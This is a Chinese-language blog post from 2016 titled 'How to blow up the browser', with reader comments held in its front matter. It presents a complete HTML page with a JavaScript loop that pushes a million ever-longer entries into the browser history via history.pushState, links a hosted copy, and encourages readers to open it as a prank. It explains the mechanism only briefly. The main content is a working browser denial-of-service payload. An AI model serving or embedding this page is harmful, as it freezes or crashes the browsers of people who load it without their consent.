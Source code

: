 +++
title = "如何将浏览器炸掉"
date = 2016-01-27

[extra.comments]
issue_id = 6

[[extra.comments.addition]]
user = { login = "David Colin", html_url = "https://www.xmu714.site", avatar_url = "https://secure.gravatar.com/avatar/98cc9fcd1382e7eba5ec9dfdcb97fed6?d=retro" }
created_at = "2017-07-31T07:47:29Z"
body = "刚用了博主的主题，有点意思"

[[extra.comments.addition]]
user = { login = "我来打酱油了", avatar_url = "https://secure.gravatar.com/avatar/?d=retro" }
created_at = "2018-11-13T07:37:37Z"
body = "可恶"

[[extra.comments.addition]]
user = { login = "啦啦啦", avatar_url = "https://secure.gravatar.com/avatar/?d=retro" }
created_at = "2020-03-23T12:02:18Z"
body = "怪不得备案信息那么猖狂，原来网站不在境内。封站警告[滑稽]"

[[extra.comments.addition]]
user = { login = "明年我开会员", avatar_url = "https://secure.gravatar.com/avatar/ef465e95972160bd6ea3bdce9e5f8d5c?d=retro" }
created_at = "2016-01-29T05:06:14Z"
body = "666"

[[extra.comments.addition]]
user = { login = "Space520", avatar_url = "https://secure.gravatar.com/avatar/1b936d729bf7f50c7a58961dfec6026e?d=retro" }
created_at = "2023-03-09T09:43:47Z"
body = "> 刚用了博主的主题，有点意思\n\nhello，你好。"

[[extra.comments.addition]]
user = { login = "Space520", avatar_url = "https://secure.gravatar.com/avatar/1b936d729bf7f50c7a58961dfec6026e?d=retro" }
created_at = "2023-03-04T06:18:38Z"
body = "666牛逼！"

[[extra.comments.addition]]
user = { login = "watermelon", html_url = "https://mowatermelon.github.io", avatar_url = "https://secure.gravatar.com/avatar/9e2261a1f5b9cca7fc32299dd9ba808e?d=retro" }
created_at = "2017-09-05T03:38:50Z"
body = "大ie       对象不支持“pushState”属性或方法"

[[extra.comments.addition]]
user = { login = "miko", avatar_url = "https://secure.gravatar.com/avatar/9ca79578003669fa05dad5fb5915d84b?d=retro" }
created_at = "2020-04-02T16:53:20Z"
body = "好奇心让我点了链接，，果然要重启浏览器😂"

[[extra.comments.addition]]
user = { login = "ortt", avatar_url = "https://secure.gravatar.com/avatar/867ae57702dd9d4ebd40b2977e63497e?d=retro" }
created_at = "2023-02-23T13:37:08Z"
body = "edge：浏览器并没有崩， 只是报错了 \n```sh\nUncaught DOMException: Failed to execute 'pushState' on 'History': A history state object with URL 'file:///C:/Users/username/Desktop/0' cannot be created in a document with origin 'null' and URL 'file:///C:/Users/username/Desktop/test.html'.\n    at file:///C:/Users/username/Desktop/test.html:11:17\n```"

[[extra.comments.addition]]
user = { login = "Shadow", avatar_url = "https://secure.gravatar.com/avatar/fc210811ce0caa54a69709287dd1e028?d=retro" }
created_at = "2018-05-20T14:41:07Z"
body = "出乱码惹（用的Safari）"
+++

如何将浏览器炸掉？

<!--more-->

你可以直接打开[这个链接](/various/browser-ripper.html)
或者，你也可以新建一个文件 `browser-ripper.html`，内容如下：

```html
<html>
  <head>
    <title>等待 10 秒，便可享受到飞一般的感觉</title>
  </head>
  <body>
    <h1>抓紧，要上天了！</h1>
    <script>
      var total = "";
      for (var i = 0; i<1000000; i++) {
        total = total + i.toString();
        history.pushState(0,0,total);
      }
    </script>
  </body>
</html>
```

然后用浏览器打开它

你真的打开它了😂？
是不是很爽？😂我们来看看原理

嗯...大家都能看出来这是一个 JS 循环，而重点就在于 `history.pushState` 这句。
而`history.pushState`是什么呢？
大家可能或多或少都听说过 pjax（没错，本博客就在用），而而 pjax 中的这个“p”在某种意义上代表的就是 `history.pushState`，这是现代浏览器普遍支持的一种添加浏览历史记录的方法。
是不是觉得豁然开朗？没错！这一段 JS 就是在向你的浏览器历史里塞进 1000000 条记录😂
（逃

***

本文参考了：
[Cyber Security 的 Tweet](https://twitter.com/cyber__sec/status/689070600653041664)
